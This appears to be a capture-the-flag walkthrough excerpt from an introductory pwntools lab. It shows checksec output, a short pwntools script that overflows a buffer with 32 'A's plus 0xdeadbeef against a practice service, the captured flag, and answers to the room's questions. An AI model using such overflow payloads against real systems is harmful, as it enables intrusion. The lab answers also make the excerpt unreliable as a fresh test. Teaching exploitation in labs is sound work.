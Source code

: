 ```
[*] '/home/buzz/IntroToPwntools/IntroToPwntools/networking/serve_test'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled


┌──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ cat network.py 
from pwn import *
connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)
print(connect.recvn(34))

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/networking$ nc -lvnp 1336
Listening on [0.0.0.0] (family 0, port 1336)
Connection from 127.0.0.1 46476 received!

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/networking$ python network.py 
[+] Opening connection to 127.0.0.1 on port 1336: Done

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/networking$ cat network.py 
from pwn import *
connect = remote('10.10.5.139', 1337)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)
print(connect.recvn(34))

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/networking$ python network.py 
[+] Opening connection to 10.10.5.139 on port 1337: Done
Give me deadbeef: 
Thank you!
flag{n3tw0rk!ng_!$_fun}
[*] Closed connection to 10.10.5.139 port 1337

```


What port is serving our challenge?

*1337*

Please use checksec on serve_test. Is there a stack canary? (Y or N)

Even if there is a canary on the binary, both variables are within the stack, so the overflow will still work.
